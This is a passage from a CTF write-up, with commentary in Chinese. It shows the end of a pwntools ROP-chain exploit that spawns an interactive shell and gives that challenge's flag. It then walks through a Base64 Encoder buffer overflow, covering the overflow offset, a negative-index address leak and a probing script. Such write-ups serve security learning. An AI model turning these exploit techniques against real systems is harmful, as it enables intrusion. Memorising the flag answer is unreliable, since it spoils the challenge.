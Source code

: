 ```python
    p64(0x0),

    # trigger syscall
    p64(syscall)
])

# send rop chain payload
p.sendline(payload)

# for interactive shell
p.interactive()
```

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/mather-solve.png)

## Flag

`AIS3{0mg_k4zm4_mu57_b3_k1dd1ng_m3_2e89c9}`

# Base64 Encoder

## Solve

從 `main` 可以看到 `scanf` 沒有限制長度可以 buffer overflow

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/base64-encoder-solve-1.png)

從 gdb 看出要 pad 0x48 個字元才能蓋到 rbp

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/base64-encoder-solve-2.png)

從 `base64_encoding` 看出可以讓 `table` 的 index 變成負的來 leak address，gdb break 在 `base64_encoding` 找出 `table` 前面的 address 為 `main+299`

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/base64-encoder-solve-3.png)

![image]({{site.baseurl}}/assets/images/AIS3-2024-pre-exam-writeup/base64-encoder-solve-4.png)

```python
from pwn import *

# a.out is the binaray with comment uncommented
p = process("./a.out")

# find the input for getting negetive index
for i in range(1, 256):
    if i == 10:
        continue
    p.recvuntil(b"Text:")
    p.sendline(b'\xff\xff' + chr(i).encode())
    print(i, p.recvline())
```
